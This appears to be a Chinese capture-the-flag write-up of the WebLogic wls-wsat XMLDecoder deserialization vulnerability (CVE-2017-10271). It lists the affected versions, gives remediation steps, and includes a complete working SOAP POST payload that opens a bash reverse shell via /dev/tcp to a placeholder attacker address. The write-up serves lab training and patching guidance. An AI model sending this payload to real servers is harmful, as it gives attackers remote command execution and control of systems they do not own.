



# Weblogic wls-wsat XMLDecoder 反序列化漏洞（CVE-2017-10271）by [xiajibaxie](https://github.com/xiajibaxie)

## 一，漏洞描述

CVE-2017-10271漏洞产生的原因大致是Weblogic的WLS Security组件对外提供webservice服务，其中使用了XMLDecoder来解析用户传入的XML数据，在解析的过程中出现反序列化漏洞，导致可执行任意命令。攻击者发送精心构造的xml数据甚至能通过反弹shell拿到权限

## 二，影响版本

```
10.3.6.0
12.1.3.0.0
12.2.1.1.0
```

## 三，利用流程

访问地址： `10.10.11.20:51054`

名称：CVE-2017-10271

访问地址`/wls-wsat/CoordinatorPortType11`发现可能存在漏洞



发送数据包

```
POST /wls-wsat/CoordinatorPortType11 HTTP/1.1
Host: 10.10.11.20:51054
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:48.0) Gecko/20100101 Firefox/48.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Upgrade-Insecure-Requests: 1
Content-Type: text/xml
Content-Length: 756

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i &gt;&amp; /dev/tcp/ip/port 0&gt;&amp;1</string>
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
```



执行命令获得flag



通关！

## 四，修复方案

1.临时解决方案

根据攻击者利用POC分析发现所利用的为wls-wsat组件的CoordinatorPortType接口，若Weblogic服务器集群中未应用此组件，建议临时备份后将此组件删除，当形成防护能力后，再进行恢复。
根据实际环境路径，删除WebLogic wls-wsat组件：
```
rm -f   /home/WebLogic/Oracle/Middleware/wlserver_10.3/server/lib/wls-wsat.war
rm -f   /home/WebLogic/Oracle/Middleware/user_projects/domains/base_domain/servers/AdminServer/tmp/.internal/wls-wsat.war
rm -rf /home/WebLogic/Oracle/Middleware/user_projects/domains/base_domain/servers/AdminServer/tmp/_WL_internal/wls-wsat
```
重启Weblogic域控制器服务:

```
DOMAIN_NAME/bin/stopWeblogic.sh           #停止服务
DOMAIN_NAME/bin/startManagedWebLogic.sh    #启动服务
```
删除以上文件之后，需重启WebLogic。确认http://weblogic_ip/wls-wsat/ 是否为404页面。

2.官方补丁修复

前往Oracle官网下载10月份所提供的安全补丁

http://www.oracle.com/technetwork/security-advisory/cpuoct2017-3236626.html

升级过程可参考：http://blog.csdn.net/qqlifu/article/details/49423839
